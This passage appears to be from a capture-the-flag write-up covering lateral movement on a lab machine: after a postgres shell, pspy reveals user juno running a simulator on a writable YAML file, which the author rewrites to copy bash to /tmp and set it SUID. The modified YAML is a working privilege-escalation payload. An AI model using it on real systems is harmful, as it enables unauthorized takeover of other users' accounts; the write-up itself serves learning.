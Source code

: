 
and boom we are postgres user! 





## Lateral Movement



Unfortunatly it's really unstable shell and i decide to spawn a child process with my nc couse the version of machine doesn't have the -e paramter which can execute a shell after spawning




With pspy we can see that's an interesting process by juno ...  


```
CMD: UID=1000  PID=2530   | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
```

and as we can see we can modify the content of this yml




```yml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s

```
